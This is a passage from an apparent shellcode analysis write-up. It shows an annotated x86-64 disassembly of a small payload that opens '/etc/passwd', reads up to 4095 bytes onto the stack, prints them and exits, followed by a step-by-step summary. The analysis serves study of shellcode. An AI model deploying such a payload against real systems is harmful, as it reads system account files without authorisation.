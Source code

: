 ```nasm
; 2nd argument of read: pointer to the memory location
; where to store the bytes read
0x00000016      488d3424       lea rsi, [rsp]

; 1st argument of read: file descriptor from which to read
; the bytes
0x0000001a      4889c7         mov rdi, rax

; 3rd argument of read: number of bytes to read
0x0000001d      4831d2         xor rdx, rdx
0x00000020      66baff0f       mov dx, 0xfff

; call syscall read
0x00000024      4831c0         xor rax, rax
0x00000027      0f05           syscall

; 1st argument of write: file descriptor where to write
; the bytes
0x00000029      4831ff         xor rdi, rdi
0x0000002c      4080c701       add dil, 1

; 3rd argument of write: number of bytes to write
0x00000030      4889c2         mov rdx, rax

; call syscall write
0x00000033      4831c0         xor rax, rax
0x00000036      0401           add al, 1
0x00000038      0f05           syscall

; call exit syscall
0x0000003a      4831c0         xor rax, rax
0x0000003d      043c           add al, 0x3c
0x0000003f      0f05           syscall

0x00000041      e8bcffffff     call 2

; string "/etc/passwd" followed by the byte 0x41
0x00000046      2f             invalid
0x00000047      657463         je 0xad
0x0000004a      2f             invalid
0x0000004b      7061           jo 0xae
0x0000004d      7373           jae 0xc2
0x0000004f      7764           ja 0xb5
0x00000051      41             invalid
```

<figcaption class="figure-caption">First analysis of the shellcode</figcaption>

Overall, the shellcode can be divided in these steps:

<ol><li>using the `JMP-CALL-POP` technique to obtain the address of the string `/etc/passwd`
- invoking the syscall `open` to open the previous file in read mode
- invoking the syscall `read` to read 4095 bytes, and saving them on the stack
- invoking the syscall `write` to write them to the `standard output`
- invoking the syscall `exit` to terminate the execution of the shellcode
